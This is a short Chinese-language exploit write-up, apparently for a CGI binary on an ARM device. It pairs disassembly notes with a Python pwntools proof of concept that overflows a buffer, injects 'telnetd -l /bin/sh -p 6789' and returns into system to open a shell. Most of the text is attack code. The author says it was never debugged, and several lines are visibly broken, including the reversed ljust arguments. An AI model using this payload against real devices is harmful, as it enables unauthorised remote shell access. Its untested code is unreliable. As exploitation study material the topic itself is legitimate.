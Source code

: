 没办法调试，但我脑子过了一遍

```
.text:00010B24                 LDR     R2, [R11,#n]    ; n
.text:00010B28                 SUB     R3, R11, #-dest
.text:00010B2C                 LDR     R1, [R11,#src]  ; src
.text:00010B30                 MOV     R0, R3          ; dest
.text:00010B34                 BL      strncpy
 MOV     R0, R3          ; dest
执行过后 R0中应该还是是第二段payload
因此我们返回到0x000109DC 直接Call system估计就行
```

POC:

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

from pwn import *
import requests as rq

context.log_level="debug"

request_url = "http://127.0.0.1:80/55.cgi"

headers_for_get_uuid = {
	"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
	"Content-Type":"application/x-www-form-urlencoded",
  # 这里需要调试出偏移来泄漏uuid或者直接把uuid改了
	"Cookies":"%s%s%s" 
}

res = rq.post(request_url,headers = headers_for_get_uuid)

log.info("res: "+res)
# get_uuid

headers = {
	"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
	"Content-Type":"application/x-www-form-urlencoded",
  # 替换掉这里的uuid
	"Cookies":"uuid=aaaabbbbccccdddd"
}

commend = "& telnetd -l /bin/sh -p 6789 ;"

system = 0x000109DC

length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
offset = 0x2fd - 77 - 5
payload ="*#$^"+length_part1+length_part2+length_part3+content_length_part1+content_length_part2+ 'A'* offset
payload += commend.ljust('B',0x2f4)
payload += p32(system)

n = ord(length_part3) + 4 * (ord(length_part2) + 2 * ord(length_part1)) #3315
payload_length = ord(content_length_part2) + 2 * ord(content_length_part1) # 0x2fd

```